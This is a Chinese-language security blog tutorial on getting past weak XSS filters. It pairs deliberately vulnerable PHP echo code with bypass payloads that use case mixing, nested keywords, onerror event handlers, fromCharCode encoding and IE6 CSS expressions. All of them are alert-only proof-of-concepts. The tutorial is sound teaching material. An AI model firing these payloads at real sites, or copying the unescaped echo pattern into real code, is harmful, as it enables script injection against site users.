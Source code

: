 # XSS绕过分析

## 0x00 前言

本文介绍简单xss利用及其绕过，几个案例，都是比较简单的。

## 0x01 分析

### 1、无安全方面的限制，直接使用

关键代码：

```
<?php
@$id = $_GET['id'];
echo $id;
```

payload：

`<script>alert('zhuling.wang')</script>`

### 2、大小写绕过

关键代码：

```
<?php
function xss_check($str){
    $str = preg_replace('/script/',"", $str);
    $str = preg_replace('/alert/',"", $str);
    return $str;
}

@$id = $_GET['id'];
echo xss_check($id);
?>
```

过滤了script和alert,但是没设置不区分大小写，导致可利用大小写混写绕过

payload:

`<ScRipt>ALeRt("zhuling.wang");</sCRipT>`

### 3、重写绕过

关键代码:

```
<?php
function xss_check($str){
    $str = preg_replace('/script/i',"", $str);
    $str = preg_replace('/alert/i',"", $str);
    return $str;
}

@$id = $_GET['id'];
echo xss_check($id);
?>
```

代码中多了个i，i在PHP正则表达式中表示不区分大小写,但是过滤函数只执行了一次，进行过滤替换，而不是down掉，所以可利用重写绕过

payload:

`<sscriptcript>aalertlert('zhuling.wang');</sscriptcript>`

### 4、利用事件绕过

关键代码:

```
<?php
function xss_check($str){
    if(preg_match('/script/i', $str))
        return 'error';
    else
        return $str;
}

@$id = $_GET['id'];
echo xss_check($id);
?>
```

正则匹配到script直接返回错误，不可利用重写，这里可以利用js里面的事件来绕过

payload:

`<img src=1 onerror=alert('zhuling.wang');>`

下面是js事件的属性，可根据页面的情况选择不同的事件

```

属性	       当以下情况发生时，出现此事件
onabort	    图像加载被中断
onblur	    元素失去焦点
onchange	用户改变域的内容
onclick   	鼠标点击某个对象
ondblclick	鼠标双击某个对象
onerror   	当加载文档或图像时发生某个错误
onfocus   	元素获得焦点
onkeydown	某个键盘的键被按下
onkeypress	某个键盘的键被按下或按住
onkeyup	    某个键盘的键被松开
onload	    某个页面或图像被完成加载
onmousedown	某个鼠标按键被按下
onmousemove	鼠标被移动
onmouseout	鼠标从某元素移开
onmouseover	鼠标被移到某元素之上
onmouseup	某个鼠标按键被松开
onreset	    重置按钮被点击
onresize	窗口或框架被调整尺寸
onselect	文本被选定
onsubmit	提交按钮被点击
onunload	用户退出页面
```

### 5、编码绕过

关键代码:

```
<?php
function xss_check($str){
    if(preg_match('/script|alert/i', $str))
        return 'error';
    else
        return $str;
}

@$id = $_GET['id'];
echo xss_check($id);
?>
```

屏蔽了alert(也可能是其他的)，此时可以使用编码绕过

payload:

```
<img src=1 onerror="eval(String.fromCharCode(97, 108, 101, 114, 116, 40, 47, 122, 104, 117, 108, 105, 110, 103, 46, 119, 97, 110, 103, 47, 41))">
```

其中String.fromCharCode(97, 108, 101, 114, 116, 40, 47, 122, 104, 117, 108, 105, 110, 103, 46, 119, 97, 110, 103, 47, 41)是alert(/zhuling.wang/)编码后的内容，火狐插件hackbar有此功能

### 6、IE6下绕过

IE下还可利用javascript:alert(/zhuling.wang/); 或css

```
body {
background:black;
xss:expression(alert(/zhuling.wang/));/*IE6下测试*/
}
```

## 0x02 小结

**注意在实战中闭合原来的标签，根据页面情况构造合适的xss**

**如有错误之处请指出**

**转载请注明出处**

著作权归作者所有。
商业转载请联系作者获得授权，非商业转载请注明出处。
作者：p0
链接：https://p0sec.net/index.php/archives/60/
来源：https://p0sec.net/